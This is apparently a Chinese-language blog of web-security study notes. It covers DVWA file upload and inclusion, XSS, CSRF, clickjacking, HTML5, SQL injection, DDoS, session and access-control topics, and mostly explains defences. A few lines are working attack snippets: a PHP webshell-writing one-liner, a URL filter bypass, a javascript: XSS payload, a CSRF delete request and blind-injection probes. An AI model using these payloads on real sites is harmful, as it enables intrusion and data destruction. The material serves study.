 ```yaml
---
title: web安全总结
author: 阿航
date: 2020-10-1 14:10:00 +0800
pin: true
categories: [网络安全,Web]
tags: web安全

---
```




#### 文件上传漏洞:

- low 无验证文件格式，直接上传一句话木马。

- medium 限制jpeg格式，浏览器设置代理(本地ip或者其它)，用burp-suite拦截文件上传请求，修改content-type的值。

- high 通过文件后缀名来限制上传文件类型。

  ------

  

#### 文件包含漏洞：

- 本地文件包含`(LFI) e.g.`   ?page=`index.php` 等等

  1.`low`低安全级别：通过`edjpgom` 工具将

  ```
  <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[yangge]);?>') ?>
  ```

  代码写入图片中，先上传图片再通过文件包含生成`shell20.php` 文件,菜刀连接此文件获取`webshell` 。

  2.`medium` 中安全级别， 会删除`http`://, 此时需写成`hthttp://tp://`形式。
  3.`high` 将包含文件名写死。

- 远程文件包含`(RFI) e.g.`  ？page=`/www.baidu.com/var/dvw`等。



### XSS跨站脚本攻击

>本质上是一种`“HTML注入”`，用户的数据被当成了`HTML`代码的一部分来执行，从而混淆了原本的语义，产生了新的语义。
>
>1. 反射型XSS
>2. 存储型XSS
>3. 安全的编码函数
>
>* HtmlEncode
>
>将字符转换成HTMLEntities,对应的标准为ISO-8859-1。
>
>* JavascriptEncode
>
>与HtmlEncode编码方法不同，需要使用" \ "对特殊字符进行转义。在对抗XSS时，要求输出的变量必须                在引号内部。
>
>*****
>
>
>
>4. 防御XSS
>
>|      | HTML标签输出         | HTML属性输出              | <script>标签输出                  | 事件中输出                                   | CSS中输出                                                    | 地址中输出 |
>| ---- | -------------------- | ------------------------- | --------------------------------- | -------------------------------------------- | ------------------------------------------------------------ | ---------- |
>| 例   | `<div>$var</div>`    | `<div name="$var"></div>` | `<script> varx="$var"; </script>` | `<a href=# onclick="funcA('$var')">test</a>` | 略(P100)                                                     | ...        |
>| 防御 | 对变量使用HtmlEncode | 对变量使用HtmlEncode      | 使用JavascriptEncode              | 使用JavascriptEncode                         | 禁止用户可控制的变量再`<style>`标签,“HTML标签的style属性”以及“CSS文件”中输出 | ...        |
>
>地址中输出
>
>>```
>><a href = "$var" >test</a> 
>>```
>>
>>构造伪协议实施攻击:
>>
>>* ```
>>   <a href = "javascript:alert(1);" >test</a>
>>   ```
>> 
>>如果变量是整个URL,先检查变量是否以“http”开头，若不是则自动添加。
>
>5. 防御`DOM Based XSS`
>
>****



## 第4章 跨站点请求伪造(CSRF)

*****

### 4.1 CSRF简介

>1. 攻击者在自己的域中构造一个页面:
>
>   * ```
>     http://www.a.com/csrf.html
>     ```
>
>   * 内容为:
>
>   * ```
>     <img src ="http://blog.sohu.com/manage/entry.do?m=delete&id=156714243" />
>     ```
>
>   * 地址指向删除博客文章的链接，诱使目标用户访问该页面，图片标签会向服务器发送一次GET 请求，删除文章。
>

### 4.2 CSRF进阶

####        		1. 浏览器的cookie 策略

>  >*  Session Cookie（临时Cookie）
>  >* Third-party Cookie (本地Cookie)
>

#### 				2. P3P头

>  * 使`<iframe>,<script>`等标签在IE中不再拦截第三方Cookie的发送。
>

### 4.3 CSRF的防御

#### 						1. 验证码

#### 						2. Referer Check(防止图片盗链)

>>检查Referer是否合法来判断用户是否被CSRF攻击。
>>
>>缺陷:服务器并非什么时候都能取到Referer。

#### 						3. Anti CSRF Token

>  * 在URL尾部新增一个参数Token，要求生成足够随机，使用安全的随机数生成器。
>  * 为防止Token通过Referer的方式泄露，应该尽量将其放在表单中。把敏感操作GET改为POST，以form表单(或者ajax)的形式提交。
>
>*****



## 第5章 点击劫持(ClickJacking)

****

### 5.1 点击劫持(ClickJacking)

#### 		1. 概念

>  * 使用一个透明的，不可见的iframe覆盖在网页上，然后诱使用户在网页上操作，通过调整iframe页面的位置，使用户恰好点击在iframe页面的一些功能按钮上。

### 5.2 Flash点击劫持

### 5.3 图片覆盖攻击

>* XSIO(Cross Site Image Overlaying): 利用图片的style,或者能控制CSS。

### 5.4 拖拽劫持与数据劫持

>* 诱使用户从隐藏的不可见iframe中“拖拽”出攻击者希望得到的数据，然后放到攻击者能控制的另外一个页面中，从而窃取数据。

### 5.5 TapJacking(触屏劫持）

****



### 5.6 防御ClickJacking

  	#### 				1. frame busting

>>```
>>if (top.location != location) {
>>	top.location = self.location;
>>}
>>```
>>
>>通过上面代码禁止iframe的嵌套。
>>
>>缺陷：由于使用JavaScript写的，容易被绕过。
>>
>>解决该问题最好的方案是使用一个HTTP头。
>>
>>****
>
>****

#### 						2. X-Frame-Options

>>它有三个可选的值
>>
>>* DENY
>>* SAMEORIGIN
>>* ALLOW-FROM origin
>>
>>当值为DENY时，浏览器拒绝当前页面加载任何frame页面。
>>
>>若值为SAMEORIGIN，则frame页面的地址只能为同源域名下的页面。
>>
>>若值为ALLOW-FROM，则可以定义允许frame加载的页面地址。
>>
>>****
>
>****



## 第6章 HTML5 安全

*****

### 6.1 HTML5 新标签

#### 	     				1. iframe中的sandbox

>* `<iframe>`标签加载的内容被视为一个独立的源，其中的**脚本**被禁止执行，**表单**被禁止提交，**插件**被禁止加载，指向其它浏览对象的**链接**也会被禁止。
>
>* sandbox有以下几个属性
>
>* allow-same-origin: 允许同源访问
>* allow-top-navigation: 允许访问顶层窗口
>* allow-forms: 允许提交表单
>* allow-scripts: 允许执行脚本
>
>* iframe实例
>
>```
><iframe sandbox="allow-same-origin allow-forms allow-scripts"
>	src="http://......."</iframe>
>```

#### 		

#### 		2. Link Types: noreferre

>```
><a href="xxx" rel="noreferrer" >test</a>
>```
>
>标签指定了noreferrer后，浏览器在请求该标签的地址后不再发送Referer。

#### 						3. Canvas

****



### 6.2 其它安全

#### 						1. Cross-Origin Resource Sharing

>* Origin Header 用于标记HTTP发起的“源”，服务器端通过识别这个来判断浏览器的请求是否来自一个合法的“源”。

#### 						2. postMessage-跨窗口传递消息

>* postMessage允许每一个window对象往其他的窗口发送文本消息，从而实现跨窗口的消息传递。该功能不受同源策略限制。

#### 				3. Web Storage

>就像一个非关系型数据库，由Key-Value对组成，使用方法为:
>
>```
>设置一个值: window.sessionStorage.setItem(key,value);
>读取一个值: window.sessionStorage.getItem(key);
>```
>
>* Session Storage，关闭浏览器就会失效。
>* Local Storage，数据会一直存在。

****



## 第7章 注入攻击

### 7.1 SQL注入

​		注入攻击的的两个条件:

>* 用户能够控制数据的输入。
>* 原本要执行的代码拼接了用户的输入。

#### 						1. 盲注

>* 盲注验证：构造简单的条件语句，根据返回页面是否发生变化，来判断SQL语句是否得到执行。
>
>* ```html
> http://newspaper.com/items.php?id=2 and 1=2
> ```
> ```
>* ```html
> http://newspaper.com/items.php?id=2 and 1=1
> ```
>
>对比上面两个页面返回结果的差异，判断是否存在SQL注入漏洞。

#### 						2. Timing Attack

>* 利用BENCHMARK()
>



### 加密算法与随机数

#### 加密算法的选择和使用上小结：

1. 不要使用`ECB`模式
   * `ECB`每个分组之间相互独立
   * 缺陷：只需对调任意分组的密文，在经解密后所得明文的顺序也是经过对调的。

2. 不要使用流密码(例如`RC4`)
3. 使用`HMAC-SHA1`代替`MD5`(甚至代替`SHA1`)
4. 不要使用相同的key做不同的事情
5. salts与IV需要随机产生
6. 不自己实现加密算法，尽量使用安全专家已经实现好的库
7. 不依赖系统的保密性

****



## DDOS简介

>又称分布式拒绝服务。
>
>主要有`SYN flood`，`UDP flood`，`ICMP flood`等等。
>
>**SYN flood 攻击过程**
>
>1. 首先伪造大量的源IP地址(伪造地址)，向服务端发送大量的`SYN`包。
>2. 服务器端返回`SYN/ACK`包，而伪造的IP并不会应答，服务器端收不到伪造IP的回应，会重试3~5次并等待一个`SYN Time`的时间。
>3. 攻击者大量发送这种请求，服务器就会消耗很多的资源，最后导致正常请求无法完成，拒绝服务。
>
>**对抗方法**
>
>​	`SYN Cookie`：为每一个IP地址分配一个`"Cookie"`，统计每个IP地址的访问频率，若短时间内接受大量来自同一IP地址的数据包，则认为受到了攻击并	将来自这个地址的包丢弃。
>
>*****
>
>

## 应用层拒绝服务攻击

## 应用层DDOS

>**CC攻击（Challenge Collapasar）**
>
>原理：对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务端资源的目的。
>
>应对策略：在应用中针对每个"客户端"做一个请求频率的限制，即通过IP地址和Cookie定位客户端，若请求频繁，则将所有请求都定位到一个出错页面。
>
>该策略的缺陷：攻击者使用大量的代理服务器或者傀儡机来隐藏真实IP地址，不断变换IP地址，就可以绕过服务器对单个IP地址请求频率的限制。

## 资源耗尽攻击

>**Slowloris攻击**
>
>原理：以极低的速度往服务器发送HTTP请求，导致所有的Web Server连接数被恶意占用，从而无法接受新的请求，导致拒绝服务。
>
>****

## PHP安全

 **文件包含漏洞**

>1. 本地文件包含(Local File Inclusion),简称`LFI`.
>
>  * `open_basedir`能够限制在某个特定目录下`PHP`能打开的文件，从而抵御目录遍历漏洞。
>  * 尽量避免用户可以控制的包含动态的变量。
>
>2. 远程文件包含
>
>  * 若配置选项allow_url_include为ON,则include/require函数可以加载远程文件。

### 第9章 认证与会话管理

#### 		1. 多因素认证

#### 		2. Session 认证

>生成`SessionID`时，需要保证足够的随机性，比如采用伪随机数生成算法。

#### 		3.`Session Fixation`攻击

>* 原理: 攻击者拥有一个未认证的`SessionID`,然后交由用户认证，认证完后服务器没有更新`SessionID`的值，然后攻击者就可以通过该ID登录用户的账户。
>* 解决方法: 登陆完成后，更新`SessionID`的值。

#### 		4. Session保持攻击

>* 原理: 攻击者通过不停的访问(刷新页面)，让`Session`一直"活"着，永久使用用户的账户。
>* 解决方法: 在一定时间后，强制销毁Session。

#### 		5. 单点登录(SSO)

>* 用户只用登录一次就可以访问所有的系统。
>
>****



### 第10章 访问控制

>访问控制:
>
>* 基于URL的访问控制
>* 基于方法(method)的访问控制
>* 基于数据的访问控制

#### 		1. 垂直权限管理

>* 基于角色的访问控制(Role-Based Access Control) 简称RBAC。
>* 系统中事先定义出不同的角色，不同的角色拥有不同的权限。

#### 		2.水平权限管理

>* 若A用户访问了B用户的的数据，则称发生了越权访问，这种问题就称为“水平权限管理问题”。

#### 		3. OAuth

>* 概念: 在不提供用户名和密码的情况下，授权第三方应用访问web资源的安全协议。
>
>****







